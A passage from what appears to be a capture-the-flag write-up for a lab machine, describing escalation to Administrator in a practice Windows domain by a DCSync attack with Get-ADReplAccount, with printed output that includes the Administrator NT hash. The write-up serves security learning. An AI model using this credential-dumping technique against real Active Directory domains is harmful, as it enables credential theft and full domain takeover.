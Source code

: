 

## Shell as Administrator

### Strategy

The `Get-bADpasswords` [GitHub
README](https://github.com/improsec/Get-bADpasswords) says that running
it:

> Requires 'Domain Admin' privileges or similar, e.g. 'Domain
> Controller' or delegated Domain-level permissions for both
> "Replicating Directory Changes" and "Replicating Directory Changes
> All", to successfully fetch passwords from the Active Directory
> database.

That means this user should be able to run a DCSync attack.

### DCSync

#### From Shell

This is actually quite easy to do from a shell as the user with
privileges using `Get-ADReplAccount`:



    PS C:\Get-bADpasswords> Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
                                                        
    DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
    Sid: S-1-5-21-3783586571-2109290616-3725730865-500
    Guid: 526eb447-7a40-4fe9-b95a-f68e9d78efa1     
    SamAccountName: Administrator                  
    SamAccountType: User                           
    UserPrincipalName:                             
    PrimaryGroupId: 513                            
    SidHistory:                                    
    Enabled: True                                  
    UserAccountControl: NormalAccount, PasswordNeverExpires
    AdminCount: True
    Deleted: False                                 
    LastLogonDate: 11/5/2022 12:41:33 PM           
    DisplayName:                                   
    GivenName:                                     
    Surname:                                       
    Description: Built-in account for administering the computer/domain
    ServicePrincipalName:                          
    SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, 
    SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
    Owner: S-1-5-21-3783586571-2109290616-3725730865-512                           
    Secrets                                        
      NTHash: b3ff8d7532eef396a5347ed33933030f
      LMHash:                                      
      NTHashHistory:          
        Hash 01: b3ff8d7532eef396a5347ed33933030f
    ...[snip]...
